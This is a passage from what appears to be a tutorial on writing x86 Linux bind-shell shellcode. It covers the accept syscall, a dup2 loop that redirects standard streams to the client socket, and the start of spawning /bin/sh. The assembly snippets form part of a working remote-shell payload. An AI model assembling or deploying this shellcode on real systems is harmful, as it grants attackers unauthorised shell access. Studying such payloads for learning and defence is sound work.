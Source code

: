 EAX - 0x66 - socketcall

EBX - 0x5 - SYS_ACCEPT

ECX - pointing to stack:

STACK: edi, 0x0, 0x0

Note that on success, listen returns 0x0 into eax (same as above).
```asm
; stack setup
push eax
push eax
push edi

; *args
mov ecx, esp

; set up syscall and accept
mov al, 0x66
inc ebx
int 0x80
```
### 5 Redirect output
Now that we have accepted the connection, we need to redirect in, out, & err.
The return value for accept is the descriptor for the client connection, which will be used as an argument for dup2 in EBX.  We can just move this from EAX to EBX first.

dup2(client_socket, 0);

dup2(client_socket, 1);

dup2(client_socket, 2);

This translates to:

EAX - 0x3f - dup

EBX - return value from accept

ECX - integer 2, 1, or 0

Since this is the same call 3 times and the only difference is an increasing (*hint* or decreasing) int.. this looks like a loop would be best to use here.

Luckily, our loop only needs to decrease from 2.  ECX can be used as the counter AND the argument, which helps us out a lot here.

Grab the syscall number for dup2:
```c
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
#define __NR_dup2 63
```
There is a conditional jump in assembly called jns which means, as I understand it, "Jump No Sign".  Which will take the jump until the Sign Flag is set.  As an easier description.. Take the jump until the value becomes negative.

This conditional jump is perfect for us because it will include 0 in our loop before exiting.
```asm
        mov ebx, eax    ; client_socket arg
        xor ecx, ecx    ; zero ecx avoiding nulls
        mov cl, 0x2     ; setup counter
dup:
        mov al, 0x3f
        int 0x80        ; dup2(client_socket, [ecx])
        dec ecx
        jns dup
```
### 6 Execute a shell
Now we just need to execute /bin/sh with execve to give the client the shell.
